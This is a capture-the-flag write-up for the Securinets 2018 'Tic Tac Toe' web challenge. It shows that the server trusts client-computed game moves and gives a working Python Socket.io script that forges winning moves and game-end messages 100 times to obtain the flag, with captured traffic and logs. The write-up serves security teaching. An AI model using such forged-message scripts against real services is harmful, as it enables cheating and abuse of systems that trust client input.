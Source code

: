# Reference

[//]: <> (文章所涉及到的技术点、WriteUp的链接)

* https://github.com/DancingSimpletons/writeups/blob/master/securinets-2018/Tic%20Tac%20Toe.md
* https://github.com/p4-team/ctf/tree/master/2018-03-24-securinets/web_tictactoe

# Title

[//]: <> (题目)

TheEmperors learned how to play the Tic Tac Toe game and since that time, for million of years, no one have defeated them in this game. You have to defeat TheEmperors player 100 times to become the newest serial winner of this game. Then you will get the flag

Link : http://web2.quals18.ctfsecurinets.com:5000

# Content

![](Resource/1.jpg)

![](Resource/2.jpg)

[//]: <> (WriteUp内容)

Open the link, open the developer console, and play a few games. Notice that the communication to the server happens
over a Websockets connection -- specifically using the Socket.io protocol. For example, we can see the following interaction

```
> ["createGame", {name: "test"}]
< ["newGame",{"name":"test","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2","player1":{"name":"test","wins":0,"loose":0,"serial_winner":0},"player2":{"name":"TheEmperors","wins":1928,"loose":10320}}]

> ["joinGame",{"ennemy_name":"TheEmperors","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2"}]
< ["player2",{"room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2"}]

> ["playTurn",{"row":"0","col":"0","player":"O","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2"}]
< ["turnPlayed",{"row":"0","col":"0","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2","matrix":[["O","-","-"],["-","-","-"],["-","-","-"]]}]

> ["playTurn",{"row":"1","col":"1","player":"X","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2"}]
< ["turnPlayed",{"row":"1","col":"1","room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2","matrix":[["O","-","-"],["-","X","-"],["-","-","-"]]}]

...

> ["gameEnded",{"room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2","message":"Checkmate like a charm ;) TheEmperors player wins!"}]
< ["gameEnd",{"room":"bd74794bd98a1904c791fa7620bc1d5b6ce176e4561dccabd121df6b58bbdfdb8d6ba6d1e99fa063a23b438e3e898cc2","message":"Checkmate like a charm ;) TheEmperors player wins!"}]
```

Note that The Emperor's moves are calculated on the _client side_! This opens possibilities.

Using [socketIO-client](https://pypi.python.org/pypi/socketIO-client), we can easily write a client in Python to send exactly what we
want to the server. We simply position three 'X'-es on the diagonal, and tell the server the game is finished. The server happily accepts
this, and starts a new game. We repeat this until the server sends us the flag.

The message/callback order is as follows:
1. Client sends `createGame` message
2. Server sends `newGame`, client sends `joinGame`
3. Server sends `player2`, client sends `playTurn`
4. Server sends `turnPlayed`. Client sends `playTurn` if moves remaining (goto 4) or `gameEnded` otherwise (goto 2)

```python
import logging
logging.getLogger('socketIO-client').setLevel(logging.DEBUG)
logging.basicConfig()

from socketIO_client import SocketIO, LoggingNamespace
import time

class TicTacToe:
    max_iters = 150  # make sure we don't keep repeating until infinity
    turns = [("X", 0, 0), ("X", 1, 1), ("X", 2, 2)]  # three X-es on the diagonal

    def __init__(self):
        self.iters = 0
        
        self.client = SocketIO('ec2-54-194-213-165.eu-west-1.compute.amazonaws.com', 5000, LoggingNamespace)
        self.client.on('newGame', self.newGame)
        self.client.on('player2', self.nextTurn)
        self.client.on('turnPlayed', self.nextTurn)

    def create_game(self):
        self.client.emit("createGame", {"name": "DancingSimpletons"})

    def newGame(self, args):
        time.sleep(0.1)
        
        self.iters += 1
        print("iteration ", self.iters)
        if (self.iters > self.max_iters):
            return

        self.turnindex = 0
        self.room = args['room']
        self.enemy = args['player2']['name']
        
        self.client.emit("joinGame", {"ennemy_name": self.enemy, "room": self.room})

    def nextTurn(self, args):
        if (self.turnindex == len(self.turns)):
            return self.lastTurn(args)

        (player, row, col) = self.turns[self.turnindex]
        self.turnindex += 1

        self.client.emit("playTurn", {
                'row': row,
                'col': col,
                'player': player,
                'room': self.room
        })

    def lastTurn(self, args):
        self.client.emit("gameEnded", {
                'message': 'whatever',
                'room': self.room
        })

t = TicTacToe()
t.create_game()
t.client.wait(seconds=100)
```

When we run this, we get (NB. 'packet sent' are sent messages, while 'message' indicates a received message)
```
[engine.io transport selected] websocket
[engine.io heartbeat reset]
[socket.io packet sent] 2["createGame", {"name": "DancingSimpletons"}]
[engine.io message] b'0'
[socket.io packet received] b'0'
[socket.io connect]
[socket.io connected]
[engine.io pong] b''
[engine.io message] b'2["newGame",{"name":"DancingSimpletons","room":"1bb964113bde07dbc4c5d0f7eba56508421b52bfe7d84ea2d506edbc413e20d6ade3f0e202db9e34040a43d66352ec5b","player1":{"name":"DancingSimpletons","wins":0,"loose":0,"serial_winner":0},"player2":{"name":"TheEmperors","wins":1956,"loose":10445}}]'
[...]
[socket.io packet sent] 2["gameEnded", {"message": "whatever", "room": "1bb964113bde07dbc4c5d0f7eba56508421b52bfe7d84ea2d506edbc413e20d6ade3f0e202db9e34040a43d66352ec5b"}]
[engine.io message] b'2["newGame",{"room":"1bb964113bde07dbc4c5d0f7eba56508421b52bfe7d84ea2d506edbc413e20d6ade3f0e202db9e34040a43d66352ec5b","player1":{"name":1,"wins":1,"loose":0,"serial_winner":1},"player2":{"name":"TheEmperors","wins":1956,"loose":10446}}]'
[...]
[socket.io packet received] b'2["newGame",{"room":"1a35dc1c9fef1f3e68be621a11582bf25db8cffe611ec33afe3465fbfd54b5ae570bf55a068dc56a89fab1be91f37890","player1":{"name":100,"wins":100,"loose":0,"serial_winner":100},"player2":{"name":"TheEmperors","wins":1961,"loose":10651}}]'
[...]
[socket.io packet sent] 2["gameEnded", {"message": "whatever", "room": "1a35dc1c9fef1f3e68be621a11582bf25db8cffe611ec33afe3465fbfd54b5ae570bf55a068dc56a89fab1be91f37890"}]
[engine.io message] b'2["getMyLovelyFlag","Flag{S9ck3t_I0_set_by_Th3_EMPIRE_NIAHAHAHAHAHAHA_xD}"]'
[socket.io packet received] b'2["getMyLovelyFlag","Flag{S9ck3t_I0_set_by_Th3_EMPIRE_NIAHAHAHAHAHAHA_xD}"]'
[socket.io event] getMyLovelyFlag('Flag{S9ck3t_I0_set_by_Th3_EMPIRE_NIAHAHAHAHAHAHA_xD}')
```

Success!